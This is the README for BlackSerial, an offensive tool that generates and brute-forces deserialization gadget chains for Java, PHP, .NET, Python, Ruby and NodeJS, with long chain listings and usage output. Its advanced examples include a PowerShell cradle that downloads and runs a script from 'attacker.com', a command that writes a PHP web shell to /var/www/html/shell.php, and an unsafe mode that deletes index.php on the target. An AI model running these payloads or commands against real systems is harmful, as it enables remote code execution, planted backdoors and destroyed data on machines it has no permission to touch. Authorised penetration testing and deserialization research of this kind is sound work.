


# BlackSerial


 [](https://raw.githubusercontent.com/darkpills/blackserial/master/LICENSE) [](https://twitter.com/intent/follow?screen_name=darkpills)

BlackSerial is a **Blackbox pentesting Gadget Chain Serializer** for:
* Java ([YSOSerial](https://github.com/frohoff/ysoserial), [Marshalsec](https://github.com/mbechler/marshalsec), [Sploits](https://github.com/GrrrDog/Sploits), [Fastjson](https://github.com/safe6Sec/Fastjson))
* PHP ([PHPGGC](https://github.com/ambionics/phpggc))
* Python ([Pickle](https://docs.python.org/3/library/pickle.html))
* C#/.Net ([YSOSerial\.Net](https://github.com/pwntester/ysoserial))
* Ruby ([GitHubSecurityLab/ruby-unsafe-deserialization](https://github.com/GitHubSecurityLab/ruby-unsafe-deserialization/))
* NodeJS ([deser-node](https://github.com/klezVirus/deser-node))

It is designed to **bruteforce gadget chains** on deserialization endpoints in blackbox or **fuzz XML, JSON or YAML input** to detect deserialization, like [Freddy](https://portswigger.net/bappstore/ae1cce0c6d6c47528b4af35faebc3ab3).

It prioritizes out of band interact/collaborator dns callback to identify a working chain.

The main objective is to **identify working gadget chains** on a blackbox code base and **which one worked**, not to make the full RCE exploitation.

## Features

* **481 gadget chains** generated with default options and all possible formatters
* **9 supported serializers**: PHPGGC (PHP), YSOSerial (Java), Marshalsec (Java), Sploits (Java), Fastjson (Java), YSOSerial\.Net (C# .Net), Pickle (Python), Ruby (GitHubSecurityLab/ruby-unsafe-deserialization), Deser-Node (NodeJS)
* **Out of band execution detection** with DNS callback formatted like `<chain_id>.<interact_domain>`, example: `oj-detection-ruby-3.3.ctj7qmhpf81f7c6r97s0js9ea8i9xkjwp.oast.online`
* **Fuzz JSON, XML or YAML** by generating payloads by formats for any language: `-f [xml|json|yaml]`
* **6 output encodings**: Binary, Base64 `-b`, URL `-u`, Base64 URL safe `-ub`, Hex string `-x`, JSON string `-j`, and any combination like `-b -u`
* DoS and file deletion gadgets with `--unsafe` option (default false)
* Can generate 1 file by payload with `-o1` in the format `<chain_name>.txt`. Usefull when you have non binary gadget chains like json, yaml, xml
* Can generates 1 gadget chain only by its name
* Phar output support with optional JPEG polyglot

A similar project exists but for ysoserial only and do not work for all payloads: https://github.com/aludermin/ysoserial-wrapper


## Basic usage

Typical usage is the following:
```
python3 blackserial.py -s [java|php|csharp|python|ruby|nodejs] [-b|-u|-bu|-j] -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com 
```

For example, generates PHP payloads base64 encoded into `payloads.txt` (default output file) with `nslookup <chain_id>.<domain>` system command (default command):
```
python3 blackserial.py -s php -b -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com

[+] BlackSerial
[+] Using serializer phpggc
[+] Loaded 135 chains
[+] Removing existing payload file payloads.txt
[+] Interact domain: ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com
[+] System command: nslookup %%chain_id%%.%%domain%%
[+] PHP Functions: shell_exec
[+] PHP Code: <?php var_dump(%%php_function%%($_GET['c'])); ?> %%chain_id%%
[+] File read on server: /etc/hosts
[+] File written on server: ./blackserial.%%ext%%
[+] Content written on server: <?php var_dump(%%php_function%%($_GET['c'])); ?> %%chain_id%%
[+] Remote file to delete (if unsafe): index.php
[+] Starting payload generation
[+] [Bitrix/RCE1] Generating payload of type 'RCE: Function Call'
[+] [CakePHP/RCE1] Generating payload of type 'RCE: Command'
[+] [CakePHP/RCE2] Generating payload of type 'RCE: Function Call'
[+] [CodeIgniter4/FR1] Generating payload of type 'File read'
[+] [CodeIgniter4/FR1] Generating payload of type 'File read'
...
[+] [ZendFramework/RCE5] Generating payload of type 'RCE: Function Call'
[+] Generated 118 payloads to payloads.txt
[+] Happy hunting!
```
Then use `payloads.txt` in Burp Intruder for example:



Generate all JSON payloads independantly of the technology for blind deserialization detection:
```
python3 blackserial.py -s all -f json -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com
```

And then fuzz the whole JSON body with Burp:


For manually input XML or JSON payloads in repeater, generates gadgets with 1 file by payload:
```
python3 blackserial.py -s csharp -o1 --output ./payloads-dir/ -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com
```

List all supported gadget chains:
```
python3 blackserial.py -s all -l

[+] BlackSerial
[!] Defaulting to 'whoami' payload since no interact domain provided
[+] Using serializer ysoserial
[+] Detected java version: 8
[+] Loaded 34 chains
AspectJWeaver: <remote_file>;<base64>
BeanShell1: <system_command>
C3P0: <url>:<classname>
Click1: <system_command>
Clojure: <system_command>
CommonsBeanutils1: <system_command>
CommonsCollections1: <system_command>
CommonsCollections2: <system_command>
CommonsCollections3: <system_command>
CommonsCollections4: <system_command>
CommonsCollections5: <system_command>
CommonsCollections6: <system_command>
CommonsCollections7: <system_command>
FileUpload1: writeB64;<remote_dir>;<base64> | writeOldB64;<remote_file>;<base64>
Groovy1: <system_command>
Hibernate1: <system_command>
Hibernate2: <system_command>
JBossInterceptors1: <system_command>
JRMPClient: <domain>
JRMPListener: <remote_port>
JSON1: <system_command>
JavassistWeld1: <system_command>
Jdk7u21: <system_command>
Jython1: <local_py_file>;<remote_py_file>
MozillaRhino1: <system_command>
MozillaRhino2: <system_command>
Myfaces1: <system_command>
Myfaces2: <url>:<classname>
ROME: <system_command>
Spring1: <system_command>
Spring2: <system_command>
URLDNS: <url>
Vaadin1: <system_command>
Wicket1: writeB64;<remote_dir>;<base64> | writeOldB64;<remote_file>;<base64>
[+] Using serializer marshalsec
[+] Detected java version: 8
[+] Loaded 86 chains
BlazeDSAMF0/SpringPropertyPathFactory
BlazeDSAMF0/C3P0WrapperConnPool
BlazeDSAMF3/UnicastRef
BlazeDSAMF3/SpringPropertyPathFactory
BlazeDSAMF3/C3P0WrapperConnPool
BlazeDSAMFX/UnicastRef
BlazeDSAMFX/SpringPropertyPathFactory
BlazeDSAMFX/C3P0WrapperConnPool
Hessian/SpringPartiallyComparableAdvisorHolder
Hessian/SpringAbstractBeanFactoryPointcutAdvisor
Hessian/Rome
Hessian/XBean
Hessian/Resin
Hessian2/SpringPartiallyComparableAdvisorHolder
Hessian2/SpringAbstractBeanFactoryPointcutAdvisor
Hessian2/Rome
Hessian2/XBean
Hessian2/Resin
Burlap/SpringPartiallyComparableAdvisorHolder
Burlap/SpringAbstractBeanFactoryPointcutAdvisor
Burlap/Rome
Burlap/XBean
Burlap/Resin
Castor/SpringAbstractBeanFactoryPointcutAdvisor
Castor/C3P0WrapperConnPool
Jackson/UnicastRemoteObject
Jackson/SpringPropertyPathFactory
Jackson/SpringAbstractBeanFactoryPointcutAdvisor
Jackson/C3P0WrapperConnPool
Jackson/C3P0RefDataSource
Jackson/JdbcRowSet
Jackson/Templates
Java/XBean
Java/CommonsBeanutils
JsonIO/UnicastRef
JsonIO/UnicastRemoteObject
JsonIO/Groovy
JsonIO/SpringAbstractBeanFactoryPointcutAdvisor
JsonIO/Rome
JsonIO/XBean
JsonIO/Resin
JsonIO/LazySearchEnumeration
JYAML/C3P0WrapperConnPool
JYAML/C3P0RefDataSource
JYAML/JdbcRowSet
Kryo/SpringAbstractBeanFactoryPointcutAdvisor
Kryo/CommonsBeanutils
KryoAltStrategy/Groovy
KryoAltStrategy/SpringPartiallyComparableAdvisorHolder
KryoAltStrategy/SpringAbstractBeanFactoryPointcutAdvisor
KryoAltStrategy/Rome
KryoAltStrategy/XBean
KryoAltStrategy/Resin
KryoAltStrategy/LazySearchEnumeration
KryoAltStrategy/BindingEnumeration
KryoAltStrategy/ServiceLoader
KryoAltStrategy/ImageIO
KryoAltStrategy/CommonsBeanutils
Red5AMF0/SpringPropertyPathFactory
Red5AMF0/C3P0WrapperConnPool
Red5AMF0/JdbcRowSet
Red5AMF3/SpringPropertyPathFactory
Red5AMF3/C3P0WrapperConnPool
Red5AMF3/JdbcRowSet
SnakeYAML/UnicastRemoteObject
SnakeYAML/SpringPropertyPathFactory
SnakeYAML/SpringAbstractBeanFactoryPointcutAdvisor
SnakeYAML/XBean
SnakeYAML/CommonsConfiguration
SnakeYAML/C3P0WrapperConnPool
SnakeYAML/C3P0RefDataSource
SnakeYAML/JdbcRowSet
SnakeYAML/ScriptEngine
SnakeYAML/ResourceGadget
XStream/SpringPartiallyComparableAdvisorHolder
XStream/SpringAbstractBeanFactoryPointcutAdvisor
XStream/Rome
XStream/XBean
XStream/Resin
XStream/CommonsConfiguration
XStream/LazySearchEnumeration
XStream/BindingEnumeration
XStream/ServiceLoader
XStream/ImageIO
XStream/CommonsBeanutils
YAMLBeans/C3P0WrapperConnPool
[+] Using serializer sploits
[+] Loaded 3 chains
Genson error-based detection
Flexjson error-based detection
Jodd datasource deserialization
[+] Using serializer fastjson
[+] Loaded 86 chains
Fastjson JdbcRowSetImpl RMI 1.1.15 < 1.2.24
Fastjson JdbcRowSetImpl LDAP 1.1.15 < 1.2.24
Fastjson Universal ParseObject RMI
Fastjson LDAP 1.2.9 < 1.2.47
Fastjson Universal ParseObject LDAP
Fastjson ReDOS 1.2.36 < 1.2.62
Fastjson DNS < 1.2.43 (1)
Fastjson DNS < 1.2.43 (2)
Fastjson DNS < 1.2.48
Fastjson DNS < 1.2.68 (1)
Fastjson DNS < 1.2.68 (2)
Fastjson DNS < 1.2.68 (3)
Fastjson DNS < 1.2.68 (4)
Fastjson DNS < 1.2.68 (5)
Fastjson DNS < 1.2.68 (6)
Fastjson DNS < 1.2.68 (7)
Fastjson DNS < 1.2.68 (8)
Fastjson DNS < 1.2.68 (9)
Fastjson RCE DNS 1.2.47
Fastjson RCE DNS 1.2.68
Fastjson RCE DNS 1.2.80 or 1.2.83
Fastjson DNS dependencies detection
Fastjson Aspectj + ognl file read
Fastjson commons-io + ognl + URLReader single-byte file reading 1
Fastjson commons-io + ognl + URLReader single-byte file reading 2
Fastjson commons-io + ognl + URLReader single-byte file reading 3
Fastjson commons-io + ognl + URLReader single-byte file reading 4
Fastjson aspectj read file + character error echo
Fastjson groovy remote class loading
Fastjson c3p0#JndiRefForwardingDataSource RMI 1.2.22 < 1.2.24
Fastjson c3p0#JndiRefForwardingDataSource LDAP 1.2.22 < 1.2.24
Fastjson shiro#JndiObjectFactory RMI 1.2.22 < 1.2.24
Fastjson shiro#JndiObjectFactory LDAP 1.2.22 < 1.2.24
Fastjson shiro#JndiRealmFactory RMI 1.2.22 < 1.2.24
Fastjson shiro#JndiRealmFactory LDAP 1.2.22 < 1.2.24
Fastjson JdbcRowSetImpl L bypass RMI 1.1.15 < 1.2.24
Fastjson JdbcRowSetImpl L bypass LDAP 1.1.15 < 1.2.24
Fastjson JdbcRowSetImpl LL bypass RMI 1.1.15 < 1.2.24
Fastjson JdbcRowSetImpl LL bypass LDAP 1.1.15 < 1.2.24
Fastjson JdbcRowSetImpl [{ bypass RMI 1.2.25 < 1.2.43
Fastjson JdbcRowSetImpl [{ bypass LDAP 1.2.25 < 1.2.43
Fastjson Mybatis RMI 1.2.25 < 1.2.45
Fastjson Mybatis LDAP 1.2.25 < 1.2.45
Fastjson MapCache RMI 1.2.25 < 1.2.47
Fastjson MapCache LDAP 1.2.25 < 1.2.47
Fastjson Regex DOS 1.2.36 < 1.2.62 (1)
Fastjson Regex DOS 1.2.36 < 1.2.62 (2)
Fastjson HikariConfig RMI 1.2.5 <= 1.2.59 (1)
Fastjson HikariConfig LDAP 1.2.5 <= 1.2.59 (1)
Fastjson HikariConfig RMI 1.2.5 <= 1.2.59 (2)
Fastjson HikariConfig LDAP 1.2.5 <= 1.2.59 (2)
Fastjson OracleManagedConnectionFactory RMI 1.2.5 <= 1.2.60
Fastjson OracleManagedConnectionFactory LDAP 1.2.5 <= 1.2.60
Fastjson JNDIConfiguration RMI 1.2.5 <= 1.2.60
Fastjson JNDIConfiguration LDAP 1.2.5 <= 1.2.60
Fastjson JndiConverter LDAP < 1.2.62
Fastjson JndiConverter LDAP < 1.2.62
Fastjson JMSContentInterceptor LDAP < 1.2.62
Fastjson JMSContentInterceptor LDAP < 1.2.62
Fastjson Shiro JndiObjectFactory RMI <= 1.2.66
Fastjson Shiro JndiObjectFactory LDAP <= 1.2.66
Fastjson Shiro JndiRealmFactory RMI <= 1.2.66
Fastjson Shiro JndiRealmFactory LDAP <= 1.2.66
Fastjson Anteros AnterosDBCPConfig RMI <= 1.2.66 (1)
Fastjson Anteros AnterosDBCPConfig LDAP <= 1.2.66 (1)
Fastjson Anteros AnterosDBCPConfig RMI <= 1.2.66 (2)
Fastjson Anteros AnterosDBCPConfig LDAP <= 1.2.66 (2)
Fastjson Ignite CacheJndiTmLookup RMI <= 1.2.66
Fastjson Ignite CacheJndiTmLookup LDAP <= 1.2.66
Fastjson SQLmap JtaTransactionConfig RMI <= 1.2.66
Fastjson SQLmap JtaTransactionConfig LDAP <= 1.2.66
Fastjson Ignite CacheJndiTmLookup RMI <= 1.2.67
Fastjson Ignite CacheJndiTmLookup LDAP <= 1.2.67
Fastjson Shiro JndiObjectFactory RMI <= 1.2.67
Fastjson Shiro JndiObjectFactory LDAP <= 1.2.67
Fastjson Hadoop HikariConfig RMI <= 1.2.68 (1)
Fastjson Hadoop HikariConfig LDAP <= 1.2.68 (1)
Fastjson Hadoop HikariConfig RMI <= 1.2.68 (2)
Fastjson Hadoop HikariConfig LDAP <= 1.2.68 (2)
Fastjson Caucho ResourceRef RMI <= 1.2.68
Fastjson Caucho ResourceRef LDAP <= 1.2.68
Fastjson Aries RecoverablePooledConnectionFactory RMI <= ?
Fastjson Aries RecoverablePooledConnectionFactory LDAP <= ?
Fastjson Aries XaPooledConnectionFactory RMI <= ?
Fastjson Aries XaPooledConnectionFactory LDAP <= ?
Fastjson Groovy HTTP 1.2.76 <= v < 1.2.83
[+] Using serializer phpggc
[+] Loaded 135 chains
Bitrix/RCE1: RCE: Function Call
CakePHP/RCE1: RCE: Command
CakePHP/RCE2: RCE: Function Call
CodeIgniter4/FD1: File delete
CodeIgniter4/FD2: File delete
CodeIgniter4/FR1: File read
CodeIgniter4/RCE1: RCE: Function Call
CodeIgniter4/RCE2: RCE: Function Call
CodeIgniter4/RCE3: RCE: Function Call
CodeIgniter4/RCE4: RCE: Function Call
CodeIgniter4/RCE5: RCE: Function Call
CodeIgniter4/RCE6: RCE: Function Call
Doctrine/FW2: File write
Doctrine/RCE1: RCE: PHP Code
Doctrine/RCE2: RCE: Function Call
Dompdf/FD1: File delete
Dompdf/FD2: File delete
Drupal7/FD1: File delete
Drupal7/RCE1: RCE: Function Call
Drupal9/RCE1: RCE: Function Call
Guzzle/FW1: File write
Guzzle/INFO1: phpinfo()
Guzzle/RCE1: RCE: Function Call
Horde/RCE1: RCE: PHP Code
Kohana/FR1: File read
Laminas/FD1: File delete
Laminas/FW1: File write
Laravel/RCE1: RCE: Function Call
Laravel/RCE2: RCE: Function Call
Laravel/RCE3: RCE: Function Call
Laravel/RCE4: RCE: Function Call
Laravel/RCE5: RCE: PHP Code
Laravel/RCE6: RCE: PHP Code
Laravel/RCE7: RCE: Function Call
Laravel/RCE8: RCE: Function Call
Laravel/RCE9: RCE: Function Call
Laravel/RCE10: RCE: Function Call
Laravel/RCE11: RCE: Function Call
Laravel/RCE12: RCE: Function Call
Laravel/RCE13: RCE: Function Call
Laravel/RCE14: RCE: Function Call
Laravel/RCE15: RCE: Function Call
Laravel/RCE16: RCE: Function Call
Laravel/RCE17: RCE: Function Call
Laravel/RCE18: RCE: PHP Code
Laravel/RCE19: RCE: Command
Laravel/RCE20: RCE: Function Call
Laravel/RCE21: RCE: Function Call
Magento/FW1: File write
Magento/SQLI1: SQL injection
Monolog/FW1: File write
Monolog/RCE1: RCE: Function Call
Monolog/RCE2: RCE: Function Call
Monolog/RCE3: RCE: Function Call
Monolog/RCE4: RCE: Command
Monolog/RCE5: RCE: Function Call
Monolog/RCE6: RCE: Function Call
Monolog/RCE7: RCE: Function Call
Monolog/RCE8: RCE: Function Call
Monolog/RCE9: RCE: Function Call
Phalcon/RCE1: RCE: eval(php://input)
Phing/FD1: File delete
PHPCSFixer/FD1: File delete
PHPCSFixer/FD2: File delete
PHPExcel/FD1: File delete
PHPExcel/FD2: File delete
PHPExcel/FD3: File delete
PHPExcel/FD4: File delete
PHPSecLib/RCE1: RCE: PHP Code
Pydio/Guzzle/RCE1: RCE: Function Call
Slim/RCE1: RCE: Function Call
Spiral/RCE1: RCE: Function Call
Spiral/RCE2: RCE: Function Call
SwiftMailer/FD1: File delete
SwiftMailer/FD2: File delete
SwiftMailer/FR1: File read
SwiftMailer/FW1: File write
SwiftMailer/FW2: File write
SwiftMailer/FW3: File write
SwiftMailer/FW4: File write
Symfony/FD1: File delete
Symfony/FW1: File write
Symfony/FW2: File write
Symfony/RCE1: RCE: Command
Symfony/RCE2: RCE: PHP Code
Symfony/RCE3: RCE: PHP Code
Symfony/RCE4: RCE: Function Call
Symfony/RCE5: RCE: Function Call
Symfony/RCE6: RCE: Command
Symfony/RCE7: RCE: Function Call
Symfony/RCE8: RCE: Function Call
Symfony/RCE9: RCE: Function Call
Symfony/RCE10: RCE: Function Call
Symfony/RCE11: RCE: Function Call
Symfony/RCE12: RCE: Function Call
Symfony/RCE13: RCE: Function Call
Symfony/RCE14: RCE: Function Call
Symfony/RCE15: RCE: Function Call
Symfony/RCE16: RCE: Function Call
TCPDF/FD1: File delete
ThinkPHP/FW1: File write
ThinkPHP/FW2: File write
ThinkPHP/RCE1: RCE: Function Call
ThinkPHP/RCE2: RCE: Function Call
ThinkPHP/RCE3: RCE: Function Call
ThinkPHP/RCE4: RCE: Function Call
Typo3/FD1: File delete
vBulletin/RCE1: RCE: Function Call
WordPress/Dompdf/RCE1: RCE: Function Call
WordPress/Dompdf/RCE2: RCE: Function Call
WordPress/Guzzle/RCE1: RCE: Function Call
WordPress/Guzzle/RCE2: RCE: Function Call
WordPress/P/EmailSubscribers/RCE1: RCE: Function Call
WordPress/P/EverestForms/RCE1: RCE: Function Call
WordPress/P/WooCommerce/RCE1: RCE: Function Call
WordPress/P/WooCommerce/RCE2: RCE: Function Call
WordPress/P/YetAnotherStarsRating/RCE1: RCE: Function Call
WordPress/PHPExcel/RCE1: RCE: Function Call
WordPress/PHPExcel/RCE2: RCE: Function Call
WordPress/PHPExcel/RCE3: RCE: Function Call
WordPress/PHPExcel/RCE4: RCE: Function Call
WordPress/PHPExcel/RCE5: RCE: Function Call
WordPress/PHPExcel/RCE6: RCE: Function Call
WordPress/RCE1: RCE: Function Call
WordPress/RCE2: RCE: Function Call
Yii/RCE1: RCE: Function Call
Yii/RCE2: RCE: Function Call
Yii2/RCE1: RCE: Function Call
Yii2/RCE2: RCE: PHP Code
ZendFramework/FD1: File delete
ZendFramework/RCE1: RCE: PHP Code
ZendFramework/RCE2: RCE: Function Call
ZendFramework/RCE3: RCE: Function Call
ZendFramework/RCE4: RCE: PHP Code
ZendFramework/RCE5: RCE: Function Call
[+] Using serializer pickle
[+] Loaded 6 chains
PickleSystemCommand: <system_command>
PickleCode: <code>
PickleDNS: <domain>
PickleHttpGet: <url>
PickleFileWrite: <remote_file_to_write>;<content>
PickleFileRead: <remote_file_to_read>
[+] Using serializer ysoserial.net
[+] Loaded 48 chains
ActivitySurrogateDisableTypeCheck: BinaryFormatter | LosFormatter | NetDataContractSerializer | SoapFormatter
ActivitySurrogateSelector: BinaryFormatter | LosFormatter | SoapFormatter
ActivitySurrogateSelectorFromFile: BinaryFormatter | LosFormatter | SoapFormatter
AxHostState: BinaryFormatter | LosFormatter | NetDataContractSerializer | SoapFormatter
BaseActivationFactory: Json.Net
ClaimsIdentity: BinaryFormatter | LosFormatter | SoapFormatter
ClaimsPrincipal: BinaryFormatter | LosFormatter | SoapFormatter
DataSet: BinaryFormatter | LosFormatter | SoapFormatter
DataSetOldBehaviour: BinaryFormatter | LosFormatter
DataSetOldBehaviourFromFile: BinaryFormatter | LosFormatter
DataSetTypeSpoof: BinaryFormatter | LosFormatter | SoapFormatter
GenericPrincipal: BinaryFormatter | LosFormatter
GetterCompilerResults: Json.Net
GetterSecurityException: Json.Net
GetterSettingsPropertyValue: Json.Net | MessagePackTypeless | MessagePackTypelessLz4 | Xaml
ObjectDataProvider: DataContractSerializer | FastJson | FsPickler | JavaScriptSerializer | Json.Net | MessagePackTypeless | MessagePackTypelessLz4 | SharpSerializerBinary | SharpSerializerXml | Xaml | XmlSerializer | YamlDotNet
ObjRef: BinaryFormatter | LosFormatter | ObjectStateFormatter | SoapFormatter
PSObject: BinaryFormatter | LosFormatter | NetDataContractSerializer | SoapFormatter
RolePrincipal: BinaryFormatter | DataContractSerializer | Json.Net | LosFormatter | NetDataContractSerializer | SoapFormatter
SessionSecurityToken: BinaryFormatter | DataContractSerializer | Json.Net | LosFormatter | NetDataContractSerializer | SoapFormatter
SessionViewStateHistoryItem: BinaryFormatter | DataContractSerializer | Json.Net | LosFormatter | NetDataContractSerializer | SoapFormatter
TextFormattingRunProperties: BinaryFormatter | DataContractSerializer | Json.Net | LosFormatter | NetDataContractSerializer | SoapFormatter
ToolboxItemContainer: BinaryFormatter | LosFormatter | SoapFormatter
TypeConfuseDelegate: BinaryFormatter | LosFormatter | NetDataContractSerializer
TypeConfuseDelegateMono: BinaryFormatter | LosFormatter | NetDataContractSerializer
WindowsClaimsIdentity: BinaryFormatter | DataContractSerializer | Json.Net | LosFormatter | NetDataContractSerializer | SoapFormatter
WindowsIdentity: BinaryFormatter | DataContractSerializer | Json.Net | LosFormatter | NetDataContractSerializer | SoapFormatter
WindowsPrincipal: BinaryFormatter | DataContractJsonSerializer | DataContractSerializer | Json.Net | LosFormatter | NetDataContractSerializer | SoapFormatter
XamlAssemblyLoadFromFile: BinaryFormatter | LosFormatter | NetDataContractSerializer | SoapFormatter
XamlImageInfo: Json.Net
ApplicationTrust
DotNetNuke
NetNonRceGadgets/PictureBox: Json.Net | JavaScriptSerializer | Xaml
NetNonRceGadgets/InfiniteProgressPage: Json.Net | JavaScriptSerializer | Xaml
NetNonRceGadgets/FileLogTraceListener: Json.Net | JavaScriptSerializer | Xaml
SessionSecurityTokenHandler
SharePoint
ThirdPartyGadgets/UnmanagedLibrary: Json.Net
ThirdPartyGadgets/WindowsLibrary: Json.Net
ThirdPartyGadgets/Xunit1Executor: Json.Net
ThirdPartyGadgets/GetterActiveMQObjectMessage: Json.Net
ThirdPartyGadgets/PreserveWorkingFolder: Json.Net
ThirdPartyGadgets/OptimisticLockedTextFile: Json.Net
ThirdPartyGadgets/QueryPartitionProvider: Json.Net
ThirdPartyGadgets/FileDiagnosticsTelemetryModule: Json.Net
ThirdPartyGadgets/SingleProcessFileAppender: Json.Net
ThirdPartyGadgets/FileDataStore: Json.Net
TransactionManagerReenlist
[+] Using serializer ruby-unsafe-deserialization
[+] Loaded 8 chains
marshal-rce-ruby-3.2.4: rce binary
marshal-rce-ruby-3.4-rc: rce binary
oj-detection-ruby-3.3: http-get json
oj-rce-ruby-3.3: rce json
ox-detection-ruby-3.3: http-get xml
ox-rce-ruby-3.3: rce xml
yaml-detection-ruby-3.3: http-get yaml
yaml-rce-ruby-3.3: rce yaml
[+] Using serializer deser-node
[+] Loaded 3 chains
node-serialize
funcster
cryo
[+] Listed 409 gadget chains
[+] Happy hunting!
```

## Advanced examples

Generates Java payloads base64 encoded with powershell cradle for Windows target:
```
python3 blackserial.py -s java -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -b -c "powershell.exe -c \"IEX (New-Object Net.WebClient).DownloadString('https://attacker.com/payload.ps1');\"" -o payloads.txt
```

Generates PHP payloads base64 encoded and then URL encoded and custom read/write files locations:
```
python3 blackserial.py -s php -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -b -u -o payloads.txt --remote-content '<?php echo exec($_GET["command"]); ?>' --remote-file-to-write /var/www/html/shell.php --remote-file-to-read /etc/hosts 
```

Generates also unsafe PHP payloads base64 encoded and try to delete `/var/www/html/index.php`:
```
python3 blackserial.py -s php -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -b -o payloads.txt --unsafe --remote-file-to-delete /var/www/html/index.php
```

Generates C# payloads with formatter types `Json.Net` and `FastJson` with 1 payload by file:
```
python3 blackserial.py -s csharp -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com --ysoserial-net-formatter Json.Net,FastJson -o1 --output ./payloads-dir/
```

Generates only 1 PHP gadget `WordPress/Dompdf/RCE1` with PHP function `exec`:
```
python3 blackserial.py -s php -i ddumqtbjx6q509qib6tiuiyds4yvmlaa.oastify.com -b --php-function exec WordPress/Dompdf/RCE1
```

## Install

### Docker

Build the docker image (go take a long coffee...):
```
docker build --tag=blackserial:latest .
```

Run it: example:
```
docker run -it --rm blackserial:latest -s all -v -i domain.fr
```

### Exegol / Automated host install

Launch the following script locally which has also been tested with [Exegol](https://exegol.readthedocs.io/en/latest/) containers. 

⚠️ Warning: this will install wine and mono which requires space:
```
./install.sh
```

Offline installation of dependencies are provided in the `./archives` directory. Git repository are not provided.

### Manual host install

See what is done in `install.sh` script.

## FAQ / known issues

**Why install another JRE? I have already one installed**

Lots of ysoserial payloads need at least JRE 11 and some JRE 8. It is better to download a local JVM to generate them correctly. You can still use your JVM with the option `--java-path`

**Why ysoserial\.net generation is so slow?**

Under linux, blackserial uses wine to launch ysoserial.exe and thus it is slow. It may be quicker under Windows.

**Why some ysoserial\.net plugins are not supported?**

I chose only plugins that are autonomous and do not require extra information. Viewstate plugin requires encryption key for instance and is excluded.

**Some gadgets fail to generate**

* ysoserial\.net: ActivitySurrogateDisableTypeCheck
* ysoserial\.net: PSObject 
* ysoserial\.net: ObjRef with formatter 'ObjectStateFormatter'
* ysoserial\.net: TypeConfuseDelegateMono
* ysoserial\.net: XamlAssemblyLoadFromFile with formatter 'SoapFormatter'
* phpggc: Symfony/RCE14 ([PR opened](https://github.com/ambionics/phpggc/pull/204))

## TODO

* resx file generation support
* Test on windows


## ⚠️ WARNING: LEGAL DISCLAIMER

This tool is intended for **educational and ethical use only**. The author is not liable for any illegal use or misuse of this tool. Users are solely responsible for their actions and must ensure they have explicit permission to scan the target systems.